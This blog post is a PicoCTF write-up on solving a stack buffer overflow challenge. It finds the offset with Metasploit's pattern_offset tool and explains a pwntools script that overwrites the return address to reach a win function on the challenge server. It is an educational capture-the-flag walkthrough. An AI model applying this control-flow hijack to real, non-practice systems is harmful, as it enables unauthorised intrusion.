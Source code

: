 ```yaml
---
layout: post
title: "Buffer Overflow 1 Challenge - Part 2"
date: 2024-04-09
categories: CTF
tags: [cyber-security, reverse-engineering, binary-exploitation, python]
author: sam
img_path: /assets/img/posts
---
```


## Buffer Overflow 1 Challenge - Part 2 - PicoCTF

- Now we know the unknown address that effects the vuln. Lets find the offset

```bash
/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x35624134   
```
![Pic 5](buffer5.webp){:style="display:block; margin-left:auto; margin-right:auto; width:80%; border: 3px solid black;"}
_Offset found_

> [*] Exact match at offset 44

- We can now find thr win address (the treasure chest)

> Obtaining the Flag: The goal of the exploit is to retrieve the flag, which is stored within the win function. This function reads the flag from a file and prints it to the console. Without executing the win function, we won't be able to access the flag.
> Control Flow Hijacking: The buffer overflow vulnerability in the vuln program allows us to overwrite the return address on the stack. By replacing the return address with the address of the win function, we hijack the program's control flow. When the vulnerable function finishes executing, instead of returning to the original calling function, it jumps to the win function, executing its code.

![Pic 6](buffer6.webp){:style="display:block; margin-left:auto; margin-right:auto; width:80%; border: 3px solid black;"}
_Win function is the first line_

### Writing the code, we have what we need

```python
conn = remote('saturn.picoctf.net', 57712) 
```
This line establishes a connection (conn) to the remote server 'saturn.picoctf.net' on port 57712, where the vulnerable program is running. The remote() function is provided by pwntools to handle network communication.

```python
offset = 44
target_address = 0x080491f6
```
These lines define the offset (the number of characters needed to reach the return address) and the address of the target function (win). You obtained these values during the analysis of the vulnerable program.

```python
payload = b'A' * offset + p32(target_address)
```

This line constructs the exploit payload. It consists of two parts
Padding (b'A' * offset): Fills the buffer with a sequence of 'A' characters to reach the return address.
Return Address (p32(target_address)): Packs the address of the target function (win) into little-endian format using p32().

```python
conn.sendline(payload)
```

This line sends the crafted payload to the vulnerable program over the established connection (conn). The sendline() function sends the payload followed by a newline character (\n), which is often required to trigger the vulnerable code.

```python
print(conn.recvall().decode())
```
This line receives the response from the vulnerable program after sending the payload. The recvall() function waits to receive all available data from the connection. The decode() method converts the received data from bytes to a string before printing it to the terminal.

![Pic 7](buffer7.webp){:style="display:block; margin-left:auto; margin-right:auto; width:80%; border: 3px solid black;"}
_Full python code_


Last step is your run your run and pray it works!

![Pic 8](buffer8.webp){:style="display:block; margin-left:auto; margin-right:auto; width:80%; border: 3px solid black;"}
_Here is the flag_

